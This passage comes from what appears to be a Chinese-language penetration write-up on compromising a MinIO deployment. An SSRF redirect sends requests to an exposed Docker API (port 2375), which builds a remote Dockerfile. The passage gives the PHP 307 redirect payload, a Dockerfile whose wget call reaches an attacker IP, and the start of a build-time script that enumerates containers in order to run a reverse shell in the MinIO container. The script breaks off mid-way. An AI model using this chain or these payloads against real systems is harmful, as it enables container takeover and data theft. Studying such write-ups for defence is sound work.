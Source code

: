 ```plain
A Git repository URI or HTTP/HTTPS context URI. If the URI points to a single text file, the file’s contents are placed into a file called Dockerfile and the image is built from that file. If the URI points to a tarball, the file is downloaded by the daemon and the contents therein used as the context for the build. If the URI points to a tarball and the dockerfile parameter is also specified, there must be a file with the corresponding path inside the tarball.
```

这个参数可以传入一个Git地址或者一个HTTP URL，内容是一个Dockerfile或者一个包含了Dockerfile的Git项目或者一个压缩包。

也就是说，Docker API支持通过指定远程URL的方式来构建镜像，而不需要我在本地写入一个Dockerfile。

所以，我尝试编写了这样一个Dockerfile，看看是否能够build这个镜像，如果可以，那么我的4444端口应该能收到wget的请求：

```plain
FROM alpine:3.13
RUN wget -T4 http://192.168.1.142:4444/docker/build
```

然后修改前面的index.php，指向Docker集群的2375端口：

```plain
<?php
header('Location: http://192.168.227.131:2375/build?remote=http://192.168.1.142:4443/Dockerfile&nocache=true&t=evil:1', false, 307);
```

进行SSRF攻击，等待了一会儿，果然收到请求了：

![9](/images/202202091233874.png)

完美，我们已经可以在目标集群容器里执行任意命令了。

此时离我们的目标，拿下MinIO，还差一点点，后面的攻击其实就比较简单了。

因为现在可以执行任意命令，我们就不会再受到SSRF漏洞的限制，可以直接反弹一个shell，或者可以直接发送任意数据包到Docker API，来访问容器。经过一顿测试，我发现MinIO虽然是运行的一个service，但实际上就只有一个容器。

所以我编写了一个自动化攻击MinIO容器的脚本，并将其放在了Dockerfile中，让其在Build的时候进行攻击，利用`docker exec`在MinIO的容器里执行反弹shell的命令。这个Dockerfile如下：

```shell
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
    { \
        echo '#!/bin/bash'; \
        echo 'set -ex'; \
        echo 'target="http://192.168.227.131:2375"'; \
        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
        echo 'for item in ${jsons[@]}; do'; \
        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
        echo '        break'; \
        echo '    fi'; \
```